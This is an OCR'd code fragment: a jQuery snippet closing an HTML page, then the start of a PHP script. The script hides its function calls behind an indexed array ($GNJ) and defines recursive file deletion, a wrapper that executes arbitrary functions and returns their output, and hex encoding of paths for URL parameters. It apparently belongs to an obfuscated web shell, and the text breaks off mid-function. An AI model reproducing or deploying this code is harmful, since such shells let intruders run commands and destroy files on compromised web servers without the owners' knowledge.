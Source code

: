 
			<script>
				$(".ajx").click(function(t){t.preventDefault();var e=$(this).attr("href");history.pushState("","",e),$.get(e,function(t){$("body").html(t)})});
			</script>
		</body>
	</html>
<?php
	function rec($j) {
		global $GNJ;
		if(trim(pathinfo($j, PATHINFO_BASENAME ), '.') === '') {
			return;
		}
		if($GNJ[8]($j)) {
			array_map('rec', glob($j . DIRECTORY_SEPARATOR . '{,.}*', GLOB_BRACE | GLOB_NOSORT));
			$GNJ[35]($j);
		}
		else {
			$GNJ[10]($j);
		}
	}
	function dre($y1, $y2) {
		global $GNJ;
		ob_start();
		$GNJ[16]($y1($y2));
		return $GNJ[36]();
	}
	function hex($n) {
		$y='';
		for ($i=0; $i < strlen($n); $i++){
			$y .= dechex(ord($n[$i]));
		}
		return $y;
	}
	function uhex($y) {
		$n='';
		for ($i=0; $i < strlen($y)-1; $i+=2){
			$n .= chr(hexdec($y[$i].$y[$i+1]));
		}
		return $n;
	}
	function OK() {
		global $GNJ, $d;
		$GNJ[38]($GNJ[9]);
		header("Location: ?d=".hex($d)."&1");
		exit();
	}
	function ER() {
		global $GNJ, $d;
		$GNJ[38]($GNJ[9]);
		header("Location: ?d=".hex($d)."&0");
		exit();
	}
	function x($c) {
		global $GNJ;
		$x = $GNJ[24]($c);
		if(($x & 0xC000) == 0xC000) {
			$u = "s";
		}
		elseif(($x & 0xA000) == 0xA000) {
			$u = "l";
		}
		elseif(($x & 0x8000) == 0x8000) {
			$u = "-";